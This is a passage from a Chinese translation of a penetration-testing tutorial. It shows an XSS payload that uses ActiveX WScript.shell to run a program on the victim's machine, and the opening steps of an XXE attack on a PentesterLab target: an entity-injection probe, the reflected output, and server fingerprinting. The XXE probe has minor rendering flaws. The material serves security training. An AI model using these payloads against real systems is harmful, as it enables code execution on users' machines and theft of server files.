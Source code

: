 正如我前面提到的，XSS 的最大影响可能是控制受影响的用户。

实现这一点的方法本质上取决于 web 浏览器允许使用 JavaScript 或其他客户端交互执行的操作，恶意用户可以在 XSS 中传递这些操作。事实上，没有必要直接执行 JavaScript。例如，可以利用 Internet Explorer 中执行 ActiveX 控件的 XSS 进行攻击，如下所示：

```
<script> 
   var o=new ActiveXObject("WScript.shell"); 
   o.Run("program.exe") 
</script> 
```

此代码将在远程计算机中启动另一个程序，因此有可能在客户端执行任何类型的攻击。

# 使用 XXE 漏洞提取服务器文件

XXE 是一个漏洞，影响解析 XML 的应用程序，并在解析引用 XXE 的 XML 时出错。

# 利用脆弱性

假设我们有一个易受 XXE 漏洞影响的应用程序，其中我们有一个易受攻击的请求，如以下屏幕截图所示：

![](Images/edf64d0e-2897-44bd-ba3f-273484aa6940.png)

此处，`xml`参数易受 XXE 和表头的攻击，如下图所示：

```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
```

这意味着这是一个接受 XML 作为输入的请求。因此，我们将使用 Burp 套件的代理修改输入，以查看应用程序是否接受我们的测试字符串。为此，我们将使用以下输入：

```
<!DOCTYPE foo [ <!ELEMENT  ANY> <!ENTITY bar "cosa">  <!ENTITY barxee "&amp;bar; XEE" > ]> <foo> &amp;barxee; </foo> 
```

如果接受，应用程序将显示我们在 XML 输入中传递的消息。因此，使用此输入修改`xml`参数，并单击 Intercept is on 发送请求。结果将显示在 HTML 网站中，如下所示：

```
</div> 

<div class="container"> 

Hello   

cosa 
      <footer> 
        <p>&amp;copy; PentesterLab 2013</p> 
      </footer> 
```

现在，我们知道该漏洞是可利用的，所以我们将发送一个字符串以从服务器提取文件。要使用 XXE 攻击提取文件，我们需要获得有关应用程序所在服务器的更多信息，至少是操作系统的信息。使用响应中包含的标题，可以知道操作系统是什么，如下所示：

```
HTTP/1.1 200 OK 
Date: Sat, 16 Feb 2019 21:17:10 GMT 
Server: Apache/2.2.16 (Debian) 
X-Powered-By: PHP/5.3.3-7+squeeze15 
X-XSS-Protection: 0 
Vary: Accept-Encoding 
Content-Length: 1895 
Connection: close 
Content-Type: text/html 
X-Pad: avoid browser bug 
```
